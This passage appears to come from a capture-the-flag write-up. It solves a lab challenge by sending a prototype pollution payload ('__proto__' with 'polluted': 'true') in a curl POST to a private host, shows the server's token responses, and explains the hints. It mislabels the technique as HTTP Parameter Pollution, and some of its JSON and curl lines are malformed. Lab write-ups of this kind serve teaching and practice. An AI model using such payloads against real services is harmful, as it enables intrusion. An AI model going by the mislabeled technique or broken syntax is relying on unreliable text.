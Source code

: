 ```bash
curl -X POST http://10.4.4.21:5002/stop \
  -H "X-Forwarded-Mind: token1" \
  -H "X-Perspective: resilience" \
  -H "Content-Type: application/json" \
  -d '{ "meta": { "__proto__": { "polluted": "true" } } }'
```

This will yield:

```json
{
  "token": "<token2>",
  "next_headers": {
    "X-Forwarded-Body": "token2" \
    "X-Forwarded-Mind" : "token1" \
    "X-Perspective": "awakened"
  }
}
```

Here's a visual of success:

![Image of successful message](img/5002-MissionComplete.png)

However, let's break down how we got here.

##### Answer Breakdown
HTTP Parameter Pollution has a typical baseline template 

You discover via server hints or reading error messages that a payload is required. Sending this:

(Example)

```bash
curl -X POST http://10.4.4.21:5002/stop \
  -H "X-Forwarded-Mind: "token1" \
  -H  "X-Perspective": "resilience"
  -H "Content-Type: application/json" \
  -d '{ "meta": { "__proto__": {} } }'
```

Yields:

```text
"You're close... Try using a dict with polluted=true."
```

This is your **second roadblock** — learning that your prototype object must include:

```json
"polluted": "true"
```
